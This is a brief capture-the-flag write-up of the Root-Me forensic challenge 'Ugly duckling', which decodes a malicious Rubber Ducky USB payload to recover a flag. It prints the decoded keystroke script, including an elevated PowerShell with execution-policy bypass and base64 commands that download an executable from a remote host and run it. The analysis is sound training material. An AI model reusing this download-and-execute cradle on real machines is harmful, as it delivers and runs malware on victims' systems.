 # Ugly duckling

[root-me challenge](https://www.root-me.org/en/Challenges/Forensic/Ugly-Duckling): The CEO’s computer seems to have been compromised internally. A young trainee dissatisfied with not having been paid during his internship arouse our supsicion. A strange USB stick containing a binary file was found on the trainee’s desk. The CEO relies on you to analyze this file.

----

Rubber duck. Decode `file.bin` using the [decoder of ducktoolkit](https://ducktoolkit.com/decode):

![Ducktools](/_static/images/duck.png)

```text
DELAY
iexplore http://challenge01.root-me.org/forensic/ch14/files/796f75277665206265656e2054524f4c4c4544.jpgENTER
DELAY
...
DELAY
%USERPROFILE%\Documents\796f75277665206265656e2054524f4c4c4544.jpgDELAY
ENTER
...
DELAY
powershell Start-Process powershell -Verb runAsDELAY
PowerShell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAJwBoAHQAdABwADoALwAvAGMAaABhAGwAbABlAG4AZwBlADAAMQAuAHIAbwBvAHQALQBtAGUALgBvAHIAZwAvAGYAbwByAGUAbgBzAGkAYwAvAGMAaAAxADQALwBmAGkAbABlAHMALwA2ADYANgBjADYAMQA2ADcANgA3ADYANQA2ADQAMwBmAC4AZQB4AGUAJwAsACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AApowershell -Exec ByPass -Nol -Enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAGMAbwBtACAAcwBoAGUAbABsAC4AYQBwAHAAbABpAGMAYQB0AGkAbwBuACkALgBzAGgAZQBsAGwAZQB4AGUAYwB1AHQAZQAoACcANgA2ADYAYwA2ADEANgA3ADYANwA2ADUANgA0ADMAZgAuAGUAeABlACcAKQA7AAoAexit
```

b64 decode:

```text
iex (New-Object System.Net.WebClient).DownloadFile('http://challenge01.root-me.org/forensic/ch14/files/666c61676765643f.exe','666c61676765643f.exe');
iex (New-Object -com shell.application).shellexecute('666c61676765643f.exe');
```

Download that `666c61676765643f.exe` and use `strings` to grep the flag.

